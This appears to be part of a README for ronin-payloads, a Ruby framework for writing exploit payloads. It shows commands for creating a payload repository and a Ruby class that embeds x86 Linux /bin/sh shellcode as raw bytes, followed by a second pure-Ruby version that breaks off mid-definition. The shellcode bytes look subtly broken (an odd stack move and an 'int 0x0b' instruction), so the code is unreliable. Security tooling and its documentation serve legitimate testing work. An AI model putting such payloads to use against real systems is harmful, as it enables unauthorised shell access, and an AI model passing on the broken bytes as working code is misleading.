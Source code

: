 Generate a ronin repository of your own payloads (or exploits):

```shell
$ ronin-repos new my-repo
$ cd my-repo/
$ mkdir payloads
$ ronin-payloads new payloads/my_payload.rb \
                      --name MyPayload --arch i686 --os Linux \
                      --authors You --description "This is my payload."
$ vim payloads/my_payload.rb
$ git add payloads/my_payload.rb
$ git commit
$ git push
```

## Examples

Define a `/bin/sh` shellcode payload:

```ruby
# encoding: ASCII-8BIT
require 'ronin/payloads/shellcode_payload'

module Ronin
  module Payloads
    class LinuxX86BinSh < ShellcodePayload

      register 'shellcode/linux/x86/bin_sh'

      summary 'x86 Linux /bin/sh shellcode'
      description <<~EOS
        Shellcode that spawns a local /bin/sh shell
      EOS

      arch :x86
      os :linux

      def build
        @payload = "1\xc0Ph//shh/bin\x89\xdcPS\x89\xcc1\xd2\xcd\x0b"
      end
    end
  end
end
```

Define a `/bin/sh` shellcode payload in pure-Ruby:

```ruby
require 'ronin/payloads/shellcode_payload'

module Ronin
  module Payloads
    module Shellcode
      module Linux
        module X86
          class BinSh < ShellcodePayload

            register 'shellcode/linux/x86/bin_sh'
            description <<~DESC
              Shellcode that spawns a local /bin/sh shell
            DESC

            arch :x86
            os :linux

            def build
```